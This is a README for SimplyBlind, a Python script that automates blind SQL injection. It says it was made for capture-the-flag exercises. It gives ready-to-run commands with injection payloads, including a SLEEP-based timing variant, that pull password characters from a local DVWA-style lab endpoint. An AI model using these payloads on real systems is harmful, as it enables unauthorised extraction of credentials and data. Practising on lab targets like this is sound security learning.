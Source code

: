 # SimplyBlind  
A script to extracted characters by exploiting blind SQL injection.

Designed for Capture The Flags (CTF) as I felt it was too troublesome to manual extract each character. This is not meant for illegal use. Please do not run this script on sites you do not have permissions on.

## Quick Start Guide:    
There are 2 "attack" modes:
- Brute: Brute force every character in the table
- Quick: Quick attack narrows down possible CHAR before checking it. Making it faster than brute

Modes are set with `-m <mode>`:  
- sc   Status Code 
- reg   regex  
- redir   redirect    
- to | nto  timeout | not_timeout  

The mode identifies if the injection returned a TRUE or FALSE.

## Examples:
Response Status code
``` shell
python simplyBlind.py quick -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200](img/200.gif)
``` shell
python simplyBlind.py quick -m sc -s 200 -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200_2](img/200_2.gif)  

Regex:
``` shell
python simplyBlind.py quick -m reg --regex "User ID exists in the database" -p "2' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![regex](img/regex.gif)  

Timeout:
```shell
python simplyBlind.py quick -m to --timeout 0.5 -p "10' AND IF(BINARY SUBSTR(password, \!I, 1) \!S '\!C', SLEEP(0.7), FALSE) #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![timeout](img/time.gif)


### Common Parameter:
`-p <payload>`   takes in a string to set custom payload. The payload takes in keys that will be replaced with the appropriate value. Keys, !I = increment, !S = symbol, !C = Char. Increments will run from 1 to the end of character in database, or till it's the same value as --limit. The symbol is used to narrow down and determine if the targeted character is the character we want. Character will be the character we are trying to match with.    

`-b <body>`   Takes in a string that sets the custom body. Body takes the key !P that will be replaced with the payload.  

`--get`   Set method to GET. Default is POST.

`-h`   For help menu
